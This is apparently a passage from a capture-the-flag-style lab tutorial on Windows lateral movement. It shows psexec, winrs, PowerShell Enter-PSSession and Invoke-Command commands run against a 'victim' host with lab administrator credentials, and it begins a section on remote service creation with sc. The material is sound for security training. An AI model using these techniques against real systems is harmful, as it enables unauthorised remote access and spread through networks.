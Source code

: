 



To run psexec, we only need to supply the required administrator credentials for the remote host and the command we want to run (`psexec64.exe`is available under `C:\tools` in THMJMP2 for your convenience):

**Victim**

```shell-session
psexec64.exe \\$VICTIM2 -u Administrator -p Mypass123 -i cmd.exe
```

### Remote Process Creation Using WinRM

* **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.

To connect to a remote Powershell session from the command line, we can use the following command:

**Victim**

```shell-session
winrs.exe -u:Administrator -p:Mypass123 -r:$VICTIM2 cmd
```

We can achieve the same from Powershell, but to pass different credentials, we will need to create a PSCredential object:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession cmdlet:

**Victim**

```powershell
Enter-PSSession -Computername $VICTIM2 -Credential $credential
```

Powershell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a PSCredential object as well:

**Victim**

```powershell
Invoke-Command -Computername $VICTIM2 -Credential $credential -ScriptBlock {whoami}
```

### Remotely Creating Services Using sc

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCE/RPC)
  * 445/TCP (RPC over SMB Named Pipes)
  * 139/TCP (RPC over SMB Named Pipes)
* **Required Group Memberships:** Administrators
